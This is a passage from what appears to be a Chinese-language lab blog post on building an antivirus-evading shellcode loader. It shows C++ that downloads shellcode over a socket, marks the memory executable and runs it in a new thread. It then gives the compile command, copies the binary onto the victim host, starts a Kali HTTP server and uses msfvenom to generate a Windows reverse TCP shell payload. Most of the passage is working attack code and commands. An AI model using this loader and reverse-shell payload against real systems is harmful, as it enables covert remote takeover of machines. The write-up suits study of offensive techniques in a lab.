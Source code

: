 ```
		printf("Failed to Allocate memory (%u)\n", GetLastError());
		return -1;
	}
	
	MoveMemory(alloc_mem, recvbuf, sizeof(recvbuf));

	DWORD oldProtect;

	if (!VirtualProtect(alloc_mem, sizeof(recvbuf), PAGE_EXECUTE_READ, &oldProtect)) {
		printf("Fai1led to change memory protection (%u)\n", GetLastError());
		return -2;
	}


	HANDLE tHandle = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)alloc_mem, NULL, 0, NULL);
	if (!tHandle) {
		printf("Failed to Create the thread (%u)\n", GetLastError());
		return -3;
	}

	printf("\n\nalloc_mem : %p\n", alloc_mem);
	WaitForSingleObject(tHandle, INFINITE);

	return 0;

    } while (iResult > 0);

    closesocket(ConnectSocket);
    WSACleanup();
}

int main(int argc, char** argv) {

    if (argc != 4) {
        printf("[+] Usage: %s <RemoteIP> <RemotePort> <Resource>\n", argv[0]);
        return 1;
    }

    power(argv[1], argv[2], argv[3]);

    return 0;

}
```
简而言之，这些代码的作用就是使用socket函数远程获取shellcode文件，然后加载到内存里
编译文件：
```
x86_64-w64-mingw32-g++ --static -o power.exe muma.cpp -fpermissive -lws2_32
```
然后把程序放到靶机上
```
 scp kali@192.168.0.110:/home/kali/bypass/power.exe .
```
![image.png](https://img-blog.csdnimg.cn/img_convert/87ee5b851d3f3832c3b6236cf72a0192.png#averageHue=#161616&clientId=ufbb5d8d0-1aae-4&from=paste&height=114&id=u5502d574&originHeight=103&originWidth=868&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=10854&status=done&style=none&taskId=u958e954b-fc1f-465a-bec5-648ac173a75&title=&width=964.4444699934978)
回到kali，启用http服务
```
python -m http.server
```
![image.png](https://img-blog.csdnimg.cn/img_convert/9b30d7a69a20e933d9c8824c5d688a73.png#averageHue=#080605&clientId=ufbb5d8d0-1aae-4&from=paste&height=150&id=u0bc5a830&originHeight=135&originWidth=903&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=35909&status=done&style=none&taskId=u6c7ea274-3d89-4312-90e8-845f36449ee&title=&width=1003.3333599125905)
生成一个shellcode
```
msfvenom -p  windows/x64/shell_reverse_tcp lhost=192.168.0.110 lport=1234 -f raw > beacon.bin
```
